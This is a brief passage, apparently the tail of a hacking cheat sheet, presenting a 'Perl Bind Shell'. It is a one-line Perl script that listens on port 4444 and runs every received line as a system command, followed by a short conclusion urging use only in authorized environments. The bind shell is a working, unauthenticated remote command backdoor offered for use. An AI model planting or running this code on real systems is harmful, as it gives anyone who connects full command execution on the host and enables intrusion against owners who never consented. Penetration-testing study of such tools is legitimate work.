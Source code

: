 ## Perl Bind Shell
A lightweight bind shell using Perl:

```perl
perl -e 'use Socket; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
bind(S,sockaddr_in(4444,INADDR_ANY)); listen(S,1); accept(C,S);
while(<C>){system($_)}'
```
---

## Conclusion
Shells are a powerful tool in red teaming, penetration testing, and ethical hacking. However, they should only be used in authorized environments. Always ensure proper permissions before testing. Don't be following the theory of ***mess around and find out***.

 **Happy Hacking!**

